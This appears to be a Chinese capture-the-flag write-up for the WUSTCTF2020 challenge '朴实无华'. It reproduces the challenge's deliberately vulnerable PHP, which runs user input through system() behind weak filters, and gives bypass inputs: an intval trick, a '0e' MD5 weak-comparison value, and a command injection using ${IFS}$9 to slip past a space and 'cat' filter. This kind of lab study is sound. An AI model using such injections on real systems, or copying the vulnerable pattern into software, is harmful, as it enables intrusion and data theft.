



# [WUSTCTF2020]朴实无华

## Tag

PHP 弱比较

***

## Writeup

查看 robots.txt 有 `/fAke_f1agggg.php`，访问在响应头可以得到：



访问得到：

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

想要过第一关，使用 `num=1e5`，科学计数法符号e无效，只会当作正常字符处理，会在比较时截断，只返回为 1

想要过第二关，若比较，需要 MD5 以 0e 开头，用 `md5=0e215962017` 即可

最后想要获得 flag，它会过滤空格和 cat，先 ls 看一下：



那么可以利用 `get_flag=tail${IFS}$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag` 即可：



